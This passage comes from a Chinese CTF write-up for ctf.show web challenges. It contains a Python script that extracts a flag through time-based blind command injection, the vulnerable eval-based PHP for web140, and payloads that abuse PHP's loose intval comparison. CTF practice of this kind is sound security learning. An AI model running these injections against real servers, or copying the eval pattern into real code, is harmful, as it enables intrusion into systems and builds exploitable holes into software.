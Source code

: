```python
		payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
		#print(payload) 
		url="http://5aed66c4-83fa-4bb6-804d-ee0846827b8d.challenge.ctf.show/?c="+payload
		try:
			requests.get(url,timeout=(2.5,2.5))
		except:
		    result = result + n
		    print(result)
		    break
```

因为{}被过滤了，得到flag自己添加上去就行

拓展：

![image-20240117192830718](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20240117192830718.png)

## web140(intval，松散比较)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
} 
```

```
intval($code) == 'ctfshow'
intval会将非数字字符转换成0
如果该字符串以合法的数值开始，则使用该数值，否则其值为 0。0==0
我们让intval($code)为0就可以了
```

payload

```
f1=md5&f2=md5
f1=sha1&f2=sha1
f1=md5&f2=phpinfo
还有很多.......
```

## web141(数字和命令可以做运算)

